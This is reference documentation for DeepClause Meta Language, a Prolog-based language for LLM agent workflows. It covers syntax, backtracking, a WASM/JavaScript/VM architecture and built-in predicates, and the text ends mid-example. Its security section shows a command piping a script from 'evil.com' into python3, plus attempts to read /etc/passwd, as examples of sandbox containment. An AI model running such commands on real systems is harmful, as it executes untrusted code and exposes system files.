

# DeepClause Meta Language (DML) - Reference Documentation

## Table of Contents
1. [Overview](#overview)
2. [General Language Properties](#general-language-properties)
3. [Execution Model](#execution-model)
4. [Language Constructs](#language-constructs)
5. [Built-in Predicates](#built-in-predicates)
6. [Advanced Features](#advanced-features)
7. [Caveats and Best Practices](#caveats-and-best-practices)

---

## Overview

**DeepClause Meta Language (DML)** is a Prolog-based domain-specific language designed for building AI-powered workflows that combine symbolic reasoning, Large Language Model (LLM) interactions, and tool integrations. DML extends standard Prolog with special predicates for LLM operations, tool calling, context management, and cooperative execution.

### Key Characteristics

- **Prolog Foundation**: DML is built on SWI-Prolog and supports standard Prolog syntax and operations
- **AI Integration**: Native support for LLM interactions through special predicates
- **Tool Ecosystem**: Seamless integration with external tools and APIs
- **Hybrid Execution**: Combines symbolic logic with AI-powered inference
- **Cooperative Yielding**: Non-blocking execution model with streaming output

---

## General Language Properties

### 1. Syntax

DML follows standard Prolog syntax with extensions:

```prolog
% Comments start with %

% Facts
fact(value).

% Rules
rule(X) :- condition(X).

% Procedures (clauses with same head)
agent_main :- 
    branch_1.

agent_main :-
    branch_2.
```

### 2. Branching and Backtracking

DML uses Prolog's backtracking mechanism to implement multi-branch execution:

```prolog
agent_main :-
    % Branch 1: Most sophisticated approach
    complex_solution.

agent_main :-
    % Branch 2: Simpler approach (tried if Branch 1 fails)
    moderate_solution.

agent_main :-
    % Branch 3: Fallback (tried if all else fails)
    answer("I apologize, but I encountered difficulties.").
```

**Behavior**: When `agent_main` is called (via `once/1`), DML tries each clause in order:
1. Attempts Branch 1
2. If Branch 1 **fails**, backtracks and tries Branch 2
3. If Branch 2 **fails**, backtracks and tries Branch 3
4. If Branch 1, 2, or 3 **succeeds**, execution **stops immediately** (no further branches are tried)

This creates a **priority-based fallback system** where more sophisticated approaches are attempted first, with simpler fallbacks if they fail. The `once/1` wrapper ensures only the first successful branch executes.

### 3. Variable Naming

- **Variables**: Start with uppercase or underscore (e.g., `X`, `Name`, `_Anonymous`)
- **Atoms**: Start with lowercase (e.g., `apple`, `user`)
- **Strings**: Double-quoted text (e.g., `"Hello world"`)
- **Anonymous Variables**: Single underscore `_` (discarded values)

### 4. Data Types

```prolog
% Atoms
atom_value

% Numbers
42
3.14

% Strings
"This is a string"

% Lists
[1, 2, 3]
["apple", "banana"]

% Dictionaries (SWI-Prolog specific)
_{name: "John", age: 30}
row{title: "Paper", year: 2024}

% Structures
date(2024, 11, 12)
person("Alice", 25)
```

### 5. String Interpolation

DML supports string interpolation with curly braces:

```prolog
agent_main :-
    Name = "Alice",
    Age = 30,
    log("User {Name} is {Age} years old"),  % Expands to: "User Alice is 30 years old"
    yield("Processing data for {Name}").
```

**Special Placeholders**:
- `{VariableName}` - Interpolates variable value
- `{tools}` - Inserts available tools description
- `{dmls}` - Inserts available DML files description

---

## Execution Model

### 1. Entry Point and Execution Semantics

Every DML program must define an `agent_main` predicate:

```prolog
agent_main :-
    % Your workflow logic here
    yield("Starting..."),
    process_task,
    answer("Done!").
```

#### How `agent_main` is Invoked

When a DML file is executed, the system internally calls `agent_main` using the `once/1` predicate:

```prolog
once(mi(Module:agent_main, Memory, Context, Module, Params))
```

**Critical Behavior**: The `once/1` wrapper means that:

1. **Finds First Solution Only**: Execution stops as soon as **any one** `agent_main` clause succeeds
2. **Backtracking Until Success**: If a clause fails, Prolog backtracks and tries the next `agent_main` clause
3. **No Exhaustive Search**: Does NOT find all solutions - stops after first success
4. **Deterministic Result**: Guarantees at most one successful execution path

**Example**:

```prolog
agent_main :-
    % Branch 1: Sophisticated approach (may fail)
    complex_analysis,
    verify_results.

agent_main :-
    % Branch 2: Simpler approach (fallback)
    simple_search,
    basic_summary.

agent_main :-
    % Branch 3: Always succeeds (last resort)
    answer("Unable to complete analysis").
```

**Execution behavior**:
- If Branch 1 succeeds → execution completes (Branches 2 and 3 never tried)
- If Branch 1 fails → backtrack to Branch 2
- If Branch 2 succeeds → execution completes (Branch 3 never tried)
- If Branch 2 fails → backtrack to Branch 3
- Branch 3 always succeeds → guarantees termination

**Why `once/1`?**
- Prevents infinite loops from backtracking
- Ensures predictable execution (one result per run)
- Allows multiple solution strategies without producing multiple outputs
- Stops computation as soon as goal is achieved

**Contrast with `findall/3`**:
```prolog
% This would execute ALL branches and collect all results:
findall(Result, agent_main, AllResults)  % NOT how DML works

% DML actually does this:
once(agent_main)  % Stops at first success
```

### 2. Cooperative Execution Engine

DML uses a **three-layer architecture** with cooperative execution between JavaScript orchestration, SWI-Prolog WASM symbolic reasoning, and a Linux VM for heavy computation:

```
┌────────────────────────────────────────────────────────────────┐
│                    LAYER 1: JavaScript Runtime                 │
│                    (Node.js/Electron/Browser)                  │
├────────────────────────────────────────────────────────────────┤
│                                                                │
│  runDmlAsync() - Main Orchestration (Async Generator)         │
│  ├─ Initializes SWI-Prolog engine                            │
│  ├─ Cooperative loop: while(!finished)                        │
│  │   └─ Calls step_cooperative_engine() in WASM               │
│  ├─ Processes status responses:                               │
│  │   ├─ 'output'       → Yields to user                       │
│  │   ├─ 'wait_input'   → Pauses for user input               │
│  │   ├─ 'request_call' → Delegates to external functions     │
│  │   ├─ 'finished'     → Completes execution                  │
│  │   └─ 'error'        → Reports failures                     │
│  └─ Bridge Functions:                                          │
│      ├─ toolAgent()     - Executes tool calls                 │
│      ├─ instruction()   - LLM instruction execution           │
│      ├─ evaluateGoal()  - LLM-based goal evaluation           │
│      └─ questionToProlog() - Natural language to Prolog       │
│                                                                │
│  External Integrations:                                        │
│  ├─ Vercel AI SDK - LLM streaming (OpenAI, Anthropic, etc.)  │
│  ├─ MCP Servers - Model Context Protocol tool integration     │
│  ├─ Web Search APIs - Google, Brave, Scholar                  │
│  └─ Workspace I/O - File system operations                    │
│                                                                │
└────────────────────────────────────────────────────────────────┘
                             ↕ FFI (via py_call)
┌────────────────────────────────────────────────────────────────┐
│              LAYER 2: SWI-Prolog WASM Runtime                  │
│                (Compiled to WebAssembly)                       │
├────────────────────────────────────────────────────────────────┤
│                                                                │
│  Cooperative Engine Management (cmdline.pl)                   │
│  ├─ init_cooperative_engine/6                                 │
│  │   ├─ Parses DML source code into Prolog terms             │
│  │   ├─ Creates engine via engine_create/3                    │
│  │   └─ Initializes: once(mi(agent_main, ...))               │
│  └─ step_cooperative_engine/3                                 │
│      ├─ Calls engine_next(Engine, Output)                     │
│      └─ Returns status: output|wait_input|request_call|...    │
│                                                                │
│  Meta-Interpreter (plogchain.pl)                              │
│  ├─ mi/5 - Core predicate interceptor                         │
│  │   mi(Goal, Memory, Context, Session, Params)               │
│  │   ├─ Intercepts: tool/2, chat/1, yield/1, answer/1        │
│  │   ├─ Intercepts: file I/O (open, read, write, append)     │
│  │   ├─ Intercepts: memory operations (remember, recall)     │
│  │   ├─ Intercepts: @-predicates (LLM evaluations)           │
│  │   └─ Delegates standard Prolog to native execution        │
│  │                                                            │
│  ├─ Yields via engine suspension:                             │
│  │   py_call(bridge:yield_output(...))  → output status       │
│  │   py_call(bridge:post_back(...))     → request_call status │
│  │   py_call(bridge:wait_question(...)) → wait_input status   │
│  │                                                            │
│  └─ String Interpolation (dml_strings.pl)                     │
│      ├─ Expands {Variable} in strings and quasi-quotations   │
│      └─ Processes ``` code blocks                             │
│                                                                │
│  Workspace Filesystem:                                         │
│  ├─ /workspace - NODEFS mount of host workspace              │
│  └─ All file I/O operates in this directory                   │
│                                                                │
└────────────────────────────────────────────────────────────────┘
                             ↕ Serial I/O
┌────────────────────────────────────────────────────────────────┐
│              LAYER 3: Linux VM (V86 Emulator)                  │
│               (x86 Alpine Linux in JavaScript)                 │
├────────────────────────────────────────────────────────────────┤
│                                                                │
│  LinuxVMTool - Bash/Python Execution (tools.js)               │
│  ├─ V86 emulator running Alpine Linux                         │
│  ├─ Shell environment: sh (BusyBox)                           │
│  ├─ Python 3 with packages: pandas, numpy, openpyxl, etc.    │
│  ├─ Workspace mounted at /mnt via 9p filesystem              │
│  └─ Command execution:                                         │
│      ├─ Sends: (command) 2>&1; printf '\n__CMD_DONE__...'    │
│      ├─ Receives: stdout/stderr + exit code                   │
│      └─ Returns to JavaScript layer via serial output         │
│                                                                │
│  Available Tools in VM:                                        │
│  ├─ curl - HTTP requests and API calls                        │
│  ├─ jq - JSON processing and filtering                        │
│  ├─ python3 - Data analysis, ML, script execution            │
│  ├─ Standard Unix utilities (grep, awk, sed, etc.)           │
│  └─ File operations on mounted workspace                      │
│                                                                │
└────────────────────────────────────────────────────────────────┘
```

#### How the Layers Work Together

**Example: DML Tool Call Execution (`tool(vm_exec("python3 script.py"), Output)` in agent_main)**

1. **WASM Layer (Prolog)**:
   - Meta-interpreter `mi/5` intercepts `tool(vm_exec(...), Output)`
   - Calls `exec_tool/4` which uses `py_call(bridge:post_back(...))`
   - Engine suspends and yields `request_call(tool_agent(...))`

2. **JavaScript Layer**:
   - `runDmlAsync()` receives status `'request_call'` with payload
   - Calls `toolAgent()` generator to find and execute `LinuxVMTool`
   - `LinuxVMTool.forward()` sends command to V86 emulator
   - Waits for completion via serial output monitoring

3. **Linux VM Layer**:
   - V86 receives command via `serial0_send()`
   - Executes: `(python3 script.py) 2>&1; printf '\n__CMD_DONE__...'`
   - Outputs results via serial port

4. **Back to JavaScript**:
   - `LinuxVMTool` captures output and exit code
   - Returns result to `toolAgent()`
   - Calls `py_call(prolog:post_from_js(...))` to resume WASM engine

5. **Back to WASM**:
   - Engine resumes from suspension
   - `Output` variable unified with tool result
   - Execution continues in `agent_main`

**Example: LLM Chat (`chat("Explain quantum computing")` in DML code)**

1. **WASM**: `mi/5` intercepts `chat/1` → yields `request_call(instruction(...))`
2. **JavaScript**: 
   - `instruction()` function streams LLM response via Vercel AI SDK
   - Yields chunks to user interface progressively
   - Posts complete response back to WASM
3. **WASM**: Continues execution after LLM completes

**Example: File I/O (`open('/workspace/data.txt', read, Stream)` in DML)**

1. **WASM**: 
   - `mi/5` intercepts `open/3`
   - Rewrites path to `/workspace/data.txt` (NODEFS mount)
   - Executes native Prolog `open/3` on WASM filesystem
2. No JavaScript/VM involvement - pure WASM file I/O

#### Key Architectural Principles

- **Symbolic Reasoning in WASM**: All Prolog logic, unification, backtracking happens in SWI-Prolog WASM
- **I/O and External Calls in JavaScript**: LLM calls, web search, network requests handled by JavaScript
- **Heavy Computation in VM**: Bash scripts, Python data processing, system utilities run in Linux VM
- **Cooperative Suspension**: WASM engine suspends at yield points, JavaScript orchestrates, then resumes
- **Shared Workspace**: `/workspace` directory accessible from all three layers (NODEFS in WASM, 9p mount in VM)

#### Security Benefits of the Three-Layer Architecture

This architectural separation provides **defense-in-depth** security through multiple isolation boundaries:

**1. Sandboxed VM Execution**
- **Isolated Linux Environment**: The V86 emulator runs a complete x86 Linux system in JavaScript, fully isolated from the host OS
- **No Direct System Access**: VM cannot access host filesystem, network stack, or system resources beyond what's explicitly mounted
- **Workspace-Only Access**: Via 9p filesystem mount, VM can only read/write files in `/mnt` (user's workspace directory)
- **Network Isolation**: VM has no direct network access; all external requests must go through JavaScript bridge
- **Process Isolation**: If malicious code runs in VM (e.g., from untrusted Python script), it cannot escape the emulator

**Example Attack Mitigation**:
```prolog
% If this DML code loads untrusted Python from the web:
agent_main :-
    tool(vm_exec("curl -s https://evil.com/malware.py | python3"), _).
% Security: Malware runs in isolated VM, cannot access host system,
% cannot open network connections, cannot read files outside /mnt
```

**2. WebAssembly Memory Safety**
- **Memory Isolation**: WASM runs in a separate memory space with no access to JavaScript heap or host memory
- **No Pointer Arithmetic**: WASM linear memory prevents buffer overflow exploits common in native code
- **Deterministic Execution**: Prolog code cannot execute arbitrary native code or syscalls
- **Controlled FFI**: Only whitelisted `py_call` bridge functions can cross WASM-JavaScript boundary

**Example Attack Mitigation**:
```prolog
% Even if malicious Prolog code attempts memory corruption:
agent_main :-
    % This cannot corrupt JavaScript runtime or access browser/Node.js internals
    malicious_predicate_with_buffer_overflow.
% Security: WASM memory safety prevents exploitation
```

**3. JavaScript Bridge as Security Gateway**
- **Explicit Permission Model**: Only specific operations allowed via `py_call` (yield, post_back, wait_question)
- **No Arbitrary Code Execution**: DML cannot execute arbitrary JavaScript, only call predefined bridge functions
- **Input Validation**: Bridge functions validate and sanitize data crossing layer boundaries
- **Audit Trail**: All cross-layer calls go through instrumented bridge, enabling logging and monitoring

**4. Filesystem Containment**
- **Workspace Restriction**: All file I/O operations (Prolog `open/3`, `read_file/2`, VM commands) restricted to `/workspace`
- **Path Rewriting**: Meta-interpreter automatically prepends workspace path, preventing directory traversal
- **No System File Access**: Cannot read `/etc/passwd`, `~/.ssh/keys`, or other sensitive host files
- **Separate VM Filesystem**: VM's Alpine Linux root filesystem is separate from host, mounted read-only

**Example Attack Mitigation**:
```prolog
% Attempting to read sensitive files fails:
agent_main :-
    % This gets rewritten to /workspace/../../etc/passwd (fails - outside workspace)
    open('../../etc/passwd', read, Stream).
    
% VM equivalent also fails:
agent_main :-
    % This runs in VM which has no access to host /etc
    tool(vm_exec("cat /etc/passwd"), _).  % Shows VM's passwd, not host
```

**5. Principle of Least Privilege**
- **Layer Separation**: Each layer only has permissions needed for its role
  - WASM: Logic execution, workspace file I/O
  - JavaScript: Network requests, LLM APIs, external tool orchestration  
  - VM: Bash/Python execution in isolated environment
- **No Ambient Authority**: DML code cannot automatically access environment variables, credentials, or system resources
- **Explicit Tool Invocation**: Network access, API calls require explicit `tool(...)` predicates, making capabilities visible

**6. Supply Chain Attack Mitigation**
- **Deterministic Dependencies**: SWI-Prolog WASM and V86 are versioned, auditable dependencies
- **No Dynamic Code Loading**: DML cannot download and execute arbitrary Prolog modules at runtime
- **Tool Whitelisting**: Only registered tools in `DEFAULT_TOOLS` array are available
- **MCP Server Configuration**: External MCP servers must be manually configured by users in their settings
  - **No Automatic Sandboxing**: MCP servers currently run with the same permissions as the host application
  - **User Responsibility**: Users must trust MCP servers they configure, as no isolation is provided yet
  - **Future Enhancement**: Sandboxing for MCP servers is planned but not yet implemented

**Security Trade-offs and Limitations**

While this architecture provides strong isolation, users should be aware:

- **LLM Output Trust**: LLM-generated code in `@-predicates` is executed; validate untrusted LLM responses
- **Tool Capabilities**: Tools like `websearch` or `visit_webpage` fetch external content that could be malicious
- **Workspace Files**: Files in `/workspace` are accessible by all layers; don't store secrets there
- **Resource Exhaustion**: No built-in CPU/memory limits on VM execution; long-running scripts could hang
- **Network Access via JavaScript**: While VM is isolated, JavaScript bridge can make network requests
- **MCP Server Trust**: MCP servers must be manually added by users and currently run **without sandboxing**
  - Only configure MCP servers from sources you trust completely
  - Review MCP server code before enabling if possible
  - Future versions will implement proper sandboxing for MCP servers

**Best Practices**:
1. Don't execute DML code from untrusted sources without review
2. Treat LLM outputs as untrusted input, especially in `vm_exec` commands
3. Use separate workspaces for different trust levels
4. Monitor tool usage in production deployments
5. Consider rate-limiting external API calls

### 3. The mi/5 Meta-Interpreter

The core of DML execution is the `mi/5` predicate (Meta-Interpreter with 5 arguments):

```prolog
mi(Goal, Memory, Context, Session, Params)
```

**Arguments**:
- `Goal`: The Prolog goal to execute
- `Memory`: Conversation memory handle (for LLM interactions)
- `Context`: Knowledge context handle
- `Session`: Session identifier
- `Params`: Execution parameters (workspace path, etc.)

**How it works**:
1. Intercepts special predicates (tool, chat, yield, etc.)
2. Rewrites file I/O to use workspace directory
3. Handles LLM-powered predicates
4. Delegates standard Prolog goals to native execution

### 4. Predicate Classification

During parsing, DML classifies predicates into three categories:

#### a) **Built-in Predicates**
Standard Prolog predicates and DML special predicates:
- Executed directly (e.g., `append/3`, `member/2`, `is/2`)
- DML specials handled by `mi/5` (e.g., `tool/2`, `chat/1`, `yield/1`)

#### b) **User-Defined Rules**
Normal Prolog rules defined with `:-`:
```prolog
process_item(X) :-
    tool(websearch(X), Results),
    parse_results(Results).
```
- Executed as standard Prolog
- Can call other predicates

#### c) **@-Predicates (LLM-Powered Functions)**
Special syntax for LLM-evaluated predicates:
```prolog
extract_temperature(Data, Temp) :- 
    @("Extract the temperature value from Data in celsius and return in Temp").
```
- Automatically converted to LLM calls
- Act like pure functions (no side effects)
- Cannot mix @ notation with regular Prolog in same clause

### 5. Execution Flow Example

```prolog
agent_main :-
    % Step 1: Tool call (intercepted by mi/5)
    tool(websearch("AI news"), Results),
    
    % Step 2: LLM extraction (via @-predicate)
    extract_topics(Results, Topics),
    
    % Step 3: Standard Prolog (executed natively)
    length(Topics, Count),
    
    % Step 4: Output (yielded cooperatively)
    log("Found {Count} topics"),
    
    % Step 5: Final answer
    answer("Analysis complete!").

% @-predicate definition (converted to LLM call)
extract_topics(Text, Topics) :- 
    @("Extract a list of main topics from Text").
```

**Execution Steps**:
1. `agent_main` invoked by cooperative engine
2. `tool(websearch(...))` → intercepted by `mi/5` → calls JavaScript bridge → executes tool
3. `extract_topics(...)` → identified as @-predicate → converted to LLM evaluation
4. `length(...)` → standard Prolog, executed natively
5. `log(...)` → intercepted by `mi/5` → yields output
6. `answer(...)` → intercepted → yields final response

### 6. Memory Management

DML uses **engine-based memory** for conversation history:

```prolog
% Push to memory
push(message{role: 'user', content: "Hello"}),
system("You are a helpful assistant"),
observation("Found 5 results"),

% Retrieve memory
get_memory(Messages),

% Clear memory
clear_memory.
```

Memory is passed to LLM calls for context-aware responses.

---

## Language Constructs

### 1. Control Flow

#### Sequential Execution (Conjunction)
```prolog
agent_main :-
    step1,
    step2,
    step3.
```

#### Conditional (If-Then-Else)
```prolog
agent_main :-
    tool(check_status, Status),
    (Status == "ok" ->
        yield("System operational")
    ;
        yield("System has issues")
    ).
```

#### Disjunction (OR)
```prolog
agent_main :-
    (condition1 ; condition2),
    proceed.
```

#### Negation
```prolog
agent_main :-
    \+ file_exists("data.txt"),
    yield("File not found").
```

### 2. Iteration

#### Using `findall/3`
```prolog
agent_main :-
    findall(X, item(X), Items),
    log("Found items: {Items}").
```

#### Using `maplist/3`
```prolog
agent_main :-
    Items = ["apple", "banana", "cherry"],
    maplist(process_item, Items, Processed).

process_item(Item, Result) :-
    format(string(Result), "Processed: ~w", [Item]).
```

#### Using `include/3` and `exclude/3`
```prolog
agent_main :-
    Numbers = [1, 2, 3, 4, 5, 6],
    include(is_even, Numbers, Evens),
    log("Even numbers: {Evens}").

is_even(N) :- 0 is N mod 2.
```

#### Using `foldl/4`
```prolog
agent_main :-
    Numbers = [1, 2, 3, 4, 5],
    foldl(add, Numbers, 0, Sum),
    log("Sum: {Sum}").

add(X, Acc, Result) :- Result is Acc + X.
```

### 3. Pattern Matching

```prolog
% List patterns
process([]) :- yield("Empty list").
process([H|T]) :- 
    yield("Head: {H}"),
    process(T).

% Structure patterns
handle(date(Y, M, D)) :- 
    log("Year: {Y}, Month: {M}, Day: {D}").

% Multiple clauses
classify(X) :- X < 0, yield("Negative").
classify(0) :- yield("Zero").
classify(X) :- X > 0, yield("Positive").
```

---

## Built-in Predicates

### 1. LLM Interaction

#### `chat/1` - Execute instruction with streaming
```prolog
chat("Summarize the key findings from the research paper")
```
- Streams output to user in real-time
- Updates conversation memory

#### `chat/2` - Execute and capture output
```prolog
chat("What are the main topics?", Response)
```
- Captures LLM response in `Response` variable
- Updates conversation memory

#### `generate/2` - Non-streaming generation
```prolog
generate("Write a detailed analysis", Analysis)
```
- For long content generation
- No streaming (silent execution)
- Useful for intermediate processing

#### `@-Predicates` - LLM-powered functions
```prolog
extract_name(Text, Name) :- @("Extract person's name from Text").
classify_sentiment(Review, Sentiment) :- @("Classify Review sentiment as positive/negative/neutral").
```
- Act like pure functions
- Cannot have side effects or tool calls
- Single branch only
- Cannot mix @ with regular Prolog

### 2. Tool Calling

#### `tool/2` - Execute external tools
```prolog
tool(ToolGoal, Output)
```

**Examples**:
```prolog
% Web search
tool(websearch("quantum computing"), Results),

% Google Scholar search
tool(google_scholar_search("machine learning", 10), Papers),

% Brave search
tool(brave_search("news about AI", "news", 20), News),

% VM execution (Linux commands)
tool(vm_exec("python3 analyze.py"), Output),
tool(vm_exec("cat data.json | jq '.results'"), Filtered),

% MCP tools (if configured)
tool(some_mcp_tool("argument"), Result).
```

**Tool output**: String or JSON (depending on tool)

### 3. Output and Logging

#### `yield/1` - Stream output to user
```prolog
yield("Processing data..."),
yield("Step 1 complete")
```

#### `answer/1` - Send final answer
```prolog
answer("The analysis is complete. Here are the results...")
```
- Automatically calls `end_thinking`
- Marks end of reasoning phase

#### `log/1` - Log message
```prolog
log("Debug information"),
log(task="Processing item {N}")
```

#### `log/2` - Formatted log
```prolog
log("Found ~w items", [Count])
```

#### `end_thinking` - Mark end of reasoning
```prolog
end_thinking,
chat("Provide final answer based on gathered data")
```
- Separates reasoning from final answer generation
- Useful before final `chat` or `answer`

### 4. Memory Management

#### `system/1` - Add system message
```prolog
system("You are an expert data analyst")
```

#### `user/1` - Add user message
```prolog
user("Please analyze this data")
```

#### `observation/1` - Add observation
```prolog
observation("Found 42 matching records")
```

#### `push/1` - Generic memory push
```prolog
push(message{role: 'assistant', content: "Analysis started"})
```

#### `get_memory/1` - Retrieve conversation history
```prolog
get_memory(Messages),
length(Messages, Count),
log("Memory contains {Count} messages")
```

#### `set_memory/1` - Replace entire memory
```prolog
set_memory([
    message{role: 'system', content: "..."},
    message{role: 'user', content: "..."}
])
```

#### `clear_memory` - Clear all memory
```prolog
clear_memory,
system("Starting fresh context")
```

### 5. User Input

#### `wait_for_input/2` - Request input from user
```prolog
wait_for_input("Enter your name: ", Name),
log("Hello, {Name}!")
```
- Pauses execution
- Returns user input

#### `param/3` - Define parameters
```prolog
param(Key, Description, Value)
```

**Parameter Types**:
```prolog
% Text input
param("username", "Enter your username", Username),

% File selection
param("input_file:file", "Select input file", FilePath),

% Single-select dropdown
param("priority:select(Low, Medium, High)", "Select priority", Priority),

% Multi-select dropdown  
param("tags:multiselect(bug, feature, docs)", "Select tags", Tags)
```

### 6. File Operations

All file operations are **automatically scoped to workspace directory**.

#### `open/3` - Open file
```prolog
open("output.txt", write, Stream),
write(Stream, "Hello"),
close(Stream)
```

#### `close/1` - Close stream
```prolog
close(Stream)
```

#### `read_string/3` - Read from stream
```prolog
open("data.txt", read, Stream),
read_string(Stream, _, Content),
close(Stream)
```

#### `read_file_to_string/3` - Read entire file
```prolog
read_file_to_string("input.txt", Content, []),
log("File size: {Size} chars", [Size])
```

#### `exists_file/1` - Check file existence
```prolog
(exists_file("config.json") ->
    log("Config found")
;
    log("Config missing")
)
```

#### `directory_files/2` - List directory contents
```prolog
directory_files(".", Files),
log("Found {N} files", [N])
```

#### `make_directory/1` - Create directory
```prolog
make_directory("output/results")
```

#### `consult/1` - Load Prolog facts
```prolog
consult("facts.pl")
```
- Loads Prolog predicates from file in workspace
- Useful for loading data

### 7. String Operations

#### `format/3` - String formatting
```prolog
format(string(Result), "Hello ~w, you are ~w years old", [Name, Age])
```
- Use `~w` as format specifier
- Escape tilde: `\\~`

#### `atomic_list_concat/3` - Join list
```prolog
atomic_list_concat(["Hello", "world"], " ", Result)
% Result = "Hello world"
```

#### `atom_string/2` - Convert atom to string
```prolog
atom_string(hello, "hello")
```

#### `atom_number/2` - Convert atom to number
```prolog
atom_number('42', 42)
```

### 8. List Operations

#### `append/3` - Concatenate lists
```prolog
append([1, 2], [3, 4], [1, 2, 3, 4])
```

#### `length/2` - Get list length
```prolog
length([a, b, c], 3)
```
**Note**: Use `length/2`, NOT `length/1`

#### `member/2` - Check membership
```prolog
member(2, [1, 2, 3])
```

#### `reverse/2` - Reverse list
```prolog
reverse([1, 2, 3], [3, 2, 1])
```

#### `nth0/3` - Zero-indexed access
```prolog
nth0(0, [a, b, c], a)  % First element
```

#### `nth1/3` - One-indexed access
```prolog
nth1(1, [a, b, c], a)  % First element
```

### 9. Arithmetic

#### `is/2` - Arithmetic evaluation
```prolog
X is 5 + 3,           % X = 8
Y is X * 2,           % Y = 16
Z is sqrt(16)         % Z = 4.0
```

#### Comparison operators
```prolog
X > Y,    % Greater than
X < Y,    % Less than
X >= Y,   % Greater or equal
X =< Y,   % Less or equal
X =:= Y,  % Arithmetic equal
X =\= Y   % Arithmetic not equal
```

### 10. Constraint Programming

DML includes CLP(FD) for constraint solving:

```prolog
:- use_module(library(clpfd)).

agent_main :-
    % Sudoku solver, N-Queens, scheduling, etc.
    Vars = [X, Y, Z],
    Vars ins 1..9,
    X + Y #= Z,
    X #> Y,
    label(Vars),
    log("Solution: {Vars}").
```

### 11. Advanced Predicates

#### `once/1` - Execute once
```prolog
once(expensive_computation(Result))
```
- Prevents backtracking

#### `call/1` - Dynamic call
```prolog
Goal = append([1], [2], X),
call(Goal)
```

#### `findall/3` - Collect all solutions
```prolog
findall(X, data(X), AllX)
```

#### `setup_call_cleanup/3` - Resource management
```prolog
setup_call_cleanup(
    open("file.txt", read, Stream),
    read_string(Stream, _, Content),
    close(Stream)
)
```

---

## Advanced Features

### 1. Quasi-Quotations

For complex strings (code, LaTeX, etc.):

```prolog
Code = {|string||
def hello():
    print("world")
    return "done"
|},

LaTeX = {|string||
\begin{equation}
E = mc^2
\end{equation}
|},

agent_main :-
    open("script.py", write, Stream),
    write(Stream, Code),
    close(Stream).
```

**Rules**:
- Must end with `|}` (exactly one pipe before `}`)
- No need to escape quotes or backslashes inside
- Useful for multi-line content

### 2. VM Execution

Execute bash commands and Python scripts in persistent Linux VM:

```prolog
agent_main :-
    % Write Python script
    Script = {|string||
import pandas as pd
import matplotlib.pyplot as plt

df = pd.read_csv('data.csv')
print(df.describe().to_string())
plt.plot(df['x'], df['y'])
plt.savefig('plot.png')
|},
    open("analyze.py", write, S),
    write(S, Script),
    close(S),
    
    % Execute in VM
    tool(vm_exec("python3 analyze.py"), Output),
    log("Analysis output: {Output}"),
    
    % Show plot
    answer("Analysis complete!\n\n").
```

**VM Features**:
- Persistent session (files remain across calls)
- Pre-installed: Python, Node.js, git, curl, jq, pandas, numpy, etc.
- Cannot install new packages
- Access to workspace directory (mounted)
- Use `&&` or `;` to chain commands

**Use VM for**:
- Complex data processing (pandas, numpy)
- Statistical analysis (scipy)
- Visualization (matplotlib)
- Machine learning (scikit-learn)
- Shell pipelines (jq, awk, sed)
- Web scraping (curl + Python)

### 3. JSON Parsing

```prolog
agent_main :-
    JSON = '{"name": "Alice", "age": 30}',
    atom_json_dict(JSON, Dict, []),
    Name = Dict.name,
    Age = Dict.age,
    log("Name: {Name}, Age: {Age}").
```

### 4. Mermaid Diagrams

Generate diagrams using Mermaid syntax:

```prolog
agent_main :-
    Diagram = {|string||

|},
    answer(Diagram).
```

Diagrams are automatically rendered in the frontend.

---

## Caveats and Best Practices

### 1. Common Pitfalls

#### ❌ Mixing @ with regular Prolog
```prolog
% WRONG - Cannot mix @ with other predicates
extract_data(X, Y) :- 
    tool(fetch(X), Data),
    @("Extract Y from Data").
```

```prolog
% CORRECT - Keep @ pure
extract_data(X, Y) :- 
    tool(fetch(X), Data),
    extract_from_text(Data, Y).

extract_from_text(Text, Result) :- 
    @("Extract relevant data from Text").
```

#### ❌ Using single quotes /atoms instead of strings is not recommended
```prolog
% WRONG
yield('This is a string')

% CORRECT
yield("This is a string")
```

#### ❌ Wrong length predicate
```prolog
% WRONG
length([1, 2, 3])  % arity 1 doesn't exist

% CORRECT
length([1, 2, 3], N)  % N = 3
```

#### ❌ Forgetting workspace scope
```prolog
% WRONG - Tries to access /home/user/data.txt
open("/home/user/data.txt", read, Stream)

% CORRECT - Accesses workspace/data.txt
open("data.txt", read, Stream)
```

#### ❌ Using catch/3 blocks
```prolog
% WRONG - DML doesn't support exception handling
catch(risky_operation, Error, handle_error)

% CORRECT - Use multiple branches
agent_main :- risky_operation.
agent_main :- log("Operation failed"), fallback.
```

### 2. Best Practices

#### ✅ Use Multiple Solution Branches

```prolog
agent_main :-
    % Branch 1: Most sophisticated
    deep_analysis_with_verification.

agent_main :-
    % Branch 2: Moderate complexity
    simple_search_and_summary.

agent_main :-
    % Branch 3: Fallback
    answer("I apologize, but I encountered difficulties.").
```

#### ✅ Add Verification Steps

```prolog
agent_main :-
    tool(websearch("topic"), Results),
    
    % Verify results format
    verify_results_format(Results),
    
    % Log progress
    log("Retrieved search results"),
    
    % Process with validation
    extract_and_verify(Results, Data),
    
    answer("Complete").

verify_results_format(Results) :-
    string(Results),
    length(Results, L),
    L > 0.
```


#### ✅ Break Complex Tasks into Predicates

```prolog
agent_main :-
    fetch_data(Data),
    process_data(Data, Processed),
    verify_quality(Processed),
    generate_report(Processed, Report),
    answer(Report).

fetch_data(Data) :- 
    tool(websearch("topic"), Data).

process_data(Raw, Processed) :- 
    extract_relevant_info(Raw, Processed).

verify_quality(Data) :- 
    check_completeness(Data),
    check_accuracy(Data).
```

#### ✅ Use Quasi-Quotations for Complex Content

```prolog
% For code generation
Code = {|string||
def complex_function():
    """Docstring with "quotes" """
    data = {'key': 'value'}
    return data
|},

% For LaTeX
Formula = {|string||
\begin{align}
E &= mc^2 \\
F &= ma
\end{align}
|},

% For long text with special chars
Text = {|string||
This text contains many "quotes" and \backslashes\
that would be tedious to escape manually.
|}
```

#### ✅ Leverage VM for Complex Processing

```prolog
agent_main :-
    % DML orchestration
    param("data_file:file", "Select CSV file", File),
    
    % Complex analysis in VM
    format(string(Cmd), "python3 -c 'import pandas as pd; df = pd.read_csv(\"~w\"); print(df.describe().to_json())'", [File]),
    tool(vm_exec(Cmd), StatsJSON),
    
    % Parse results in Prolog
